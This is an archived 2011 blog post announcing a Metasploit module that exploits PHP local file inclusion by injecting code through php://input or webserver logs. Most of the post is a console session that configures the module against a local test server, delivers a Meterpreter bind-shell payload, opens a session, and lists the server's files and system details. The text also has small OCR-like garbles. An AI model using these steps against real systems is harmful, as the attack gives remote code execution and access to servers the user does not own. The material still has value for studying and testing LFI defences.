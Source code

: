 ```yaml
---
layout: post
title: Metasploit PHP LFI exploit module
date: '2011-05-24T14:58:00.003+02:00'
author: Xavier Garcia
tags:
- Metasploit
- LFI
- module
modified_time: '2011-05-30T10:49:01.714+02:00'
blogger_id: tag:blogger.com,1999:blog-8534555958859253862.post-7188236743076985566
blogger_orig_url: http://www.shellguardians.com/2011/05/metasploit-php-lfi-exploit-module.html
---
```

Last week I wrote a simple exploit module for Metasploit to attack PHP applications with LFI vulnerabilities.  
  
It uses php://input to inject the code or the webserver logs in other case.  
  
If I had time, I would lik e to implement some tricks,  like injection PHP code in the SSH logs or the e-mail server logs, but it is not possible by now :)  
  
Note: It is really buggy and the injection may not be successful, depending on the length of the payload. Please remember that PHP limits the size of the POST message and a long payload may be cut. The same problem applies to the log file injection.  
  

```  
msf exploit(handler) > use exploit/unix/webapp/ php_lfi  
msf exploit(php_lfi) > set RHOST 127.0.0.1  
RHOST => 127.0.0.1  
msf exploit(php_lfi) > set RPORT 8181  
RPORT => 8181  
msf exploit(php_lfi) > set URI /index.php?foo=xxLFIxx  
URI => /index.php?foo=xxLFIxx  
msf exploit(php_lfi) > set PAYLOAD php/meterpreter/bind_tcp  
PAYLOAD => ; php/meterpreter/bind_tcp
msf exploit(php_lfi) > exploit -z
  
[*] Started bind handler
[*] Trying generic exploits
[*] Clean LFI i njection
[*] Sending stage (31612 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:19412 -> 127.0.0.1:4444) at Tue May 24 14:47:29 +0200 2011
  
C[-] Exploit exception: Interrupt
[*] Session 1 created in the background.
msf exploit(php_lfi) > sessions -i 1
[*] Starting interaction with 1...
  
meterpreter > ls
 
Listing: /usr/home/test/cherokee/www
====================================
 
Mode              Size  Type  Last modified                   Name
----              ----  ----  -------------                   ----
100644/rw-r--r--  0     fil   Tue May 10 11:09:39 +0200 2011  foo.php
40755 /rwxr-xr-x  512   dir   Tue May 10 10:53:59 +0200 2011  images
100644/rw-r--r--  1795  fil   Tue May 10 10:19:23 +0200 2011  index.html
100644/rw-r--r--  37    fil   Tue May 10 13:52:25 +0200 2011  index.php  
 
 
meterpreter > sysinfo
OS          : FreeBSD redphan tom.skynet.ct 8.2-RELEASE FreeBSD 8.2-RELEASE #0: Thu Feb 17 02:41:51 UTC 2011     root@mason.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC amd64
Computer    : redphantom.skynet.ct
Meterpreter : php/php
meterpreter > exit

```  
  
  
  
[php_lfi.rb](http://code.google.com/p/ghosthunter/source/browse/trunk/metasploit/exploits/php_lfi.rb)
